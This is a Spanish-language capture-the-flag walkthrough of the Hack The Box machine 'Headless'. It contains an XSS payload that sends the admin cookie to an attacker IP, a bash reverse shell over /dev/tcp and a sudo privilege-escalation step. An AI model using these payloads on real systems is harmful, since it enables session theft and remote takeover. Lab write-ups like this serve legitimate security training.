  https://app.hackthebox.com/machines/Headless
# Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.11.8
```

![[Pasted image 20240509180013.png]]
## Reconocimiento de servicios
```
nmap -sCV -p22,5000 10.10.11.8
```
![[Pasted image 20240509180946.png]]
## Gobuster
![[Pasted image 20240509182338.png]]

Hay una cookie que es is_admin que permite la entrada a /dashboard
# Fase de ataque
## Cookie Stealing
El formulario de contacto no es vulnerable a xss porque detecta la intrusion.
Si modificamos el User-Agent en BurpSuite podemos realizar un ataque xss reflected para recibir la cookie de admin.
![[Pasted image 20240509191941.png]]
```
<img src=x onerror=fetch('http://10.10.14.121:1234/?c='+document.cookie);>
```

Abrimos un servidor HTTP para recibir la petición
```
python3 -m http.server -m 80
```
![[Pasted image 20240509191743.png]]

Modificamos la Cookie en el navegador y entramos en /dashboard
## RCE
Hay un servicio web para ver que todo esta Up que es vulnerable a RCE
### Para ganar acceso al sistema (Reverse Shell)

1. Nos ponemos en escucha por el puerto 443
```
nc -nlvp 443
```
2. Mandamos la Reverse Shell con BurpSuite
```
bash -c "bash -i>%26 /dev/tcp/10.10.14.121/1111 0>%261"
```
![[Pasted image 20240509192657.png]]
[-] ==pwned!==
## Ajustar terminal
```
script /dev/null -c bash
```
ctrl + z
```
stty raw -echo; fg
```
```
	reset xterm
```
```
export TERM=xterm
```
Ajustar proporciones
```
stty rows 44 columns 184
```
# Privilege Escalation
```
sudo -l
```
![[Pasted image 20240509194306.png]]
Podemos observar que tenemos syscheck como root
Si miramos syscheck podemos observar que ejeucta un archivo intidb.sh
1. Creamos un archivo initidb.sh conteniendo "/bin/bash"
2. Ejecuatmos 
```
/usr/bin/syscheck
```
[+] ==pwned!==